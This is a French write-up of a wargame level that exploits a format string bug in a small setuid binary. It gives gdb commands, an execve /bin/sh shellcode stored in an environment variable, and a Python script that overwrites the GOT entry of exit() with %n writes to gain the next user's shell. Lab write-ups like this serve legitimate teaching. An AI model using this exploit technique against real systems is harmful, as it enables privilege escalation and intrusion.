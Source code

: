 En examinant le binaire, nous pouvons voir qu'un appel a printf est effectue puis juste apres, un appel a exit.
Le printf ne prenant en parametre seulement notre entree (dans un buffer de 100 bytes) nous pouvons en deduire
qu'une faille format string est presente dans le programme. Pour en avoir le coeur net il suffit d'envoyer
"%x" au binaire, et de voir si une addresse de la stack s'affiche. C'est le cas. Notre programme est 
donc vulnerable aux formats strings.

Le flag du user 06 n'est pas present sur la stack (comme lors d'un precedent level), inutile donc de dumper la memoire.
Nous ne pouvons pas ecraser EIP, car un appel a exit() est fait juste apres notre appel a printf(). 

Un moyen efficace d'exploiter une format string suivie d'un appel a exit(), est d'ecraser l'adresse GOT (Global Offset
Table) de l'appel systeme exit() pour la remplacer par l'adresse d'un eventuel shellcode stocke sur la stack. (la stack
etant executable ici...)

Commencons par recuperer l'adresse nous permettant de reecrire sur la GOT :

	$ gdb level05
	$ disas main
	$ disas 0x8048370
	$ x 0x80497e0

Nous avons donc l'adresse necessaire: 0x80497e0

Maintenant nous allons stocke notre shellcode dans une variable d'environnement et recuperer son adresse (soit avec gdb soit avec getenv.c)

	export TOTO=`python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'`
	
Maintenant il va falloir reecrire l'adresse 0x80497e0 par celle de notre shellcode. Nous devons ecrire 2 bytes par 2 bytes plutot que les 4 bytes d'un coup. Cela prendra beaucoup moins de temps. 

Le plus propre est d'utiliser python pour creer son exploit, avec la librairie struct.

En testant des valeurs arbitraires (comme des 'AAAABBBBCCCC') on se rend compte que nos valeurs sont stocke a l0eme adresse de la stack

/Ressources/exp.py : 

	import struct

	EXIT_PLT = 0x80497e0
	SHELLCODE = 0xffffde31

	def pad(s):
		return s+"X"*(100-len(s))

	exploit = ""
	exploit += struct.pack("I", EXIT_PLT)		# 0x80497e0
	exploit += struct.pack("I", EXIT_PLT+2)		# 0x80497e2
	exploit += "%4$56935x"           		# 2 derniers byte de l'adresse de notre shellcode (en decimal) auquel on soustrait 17 (padding)
	exploit += "%10$n "*10
	exploit += "%8987006x"           		# bidouiller jusqu'a obtenir 0xffff
	exploit += "%11$n"*10

	print pad(exploit)

Pour verifier a quoi ressembler l'adresse que nous reecrivons entre chaque modification :

	$ python /tmp/exp.py > /tmp/pay
	$ gdb level05
	$ b*main+207
	$ r < /tmp/pay
	$ x 0x80497e0

Nous arrivons donc a reecrire (2 bytes par 2 bytes) l'adresse de exit() sur la GOT. Le tour est joue.

	python /tmp/exp.py > /tmp/pay
	cat /tmp/pay - | ./level05
	

	$whoami
	=> level06

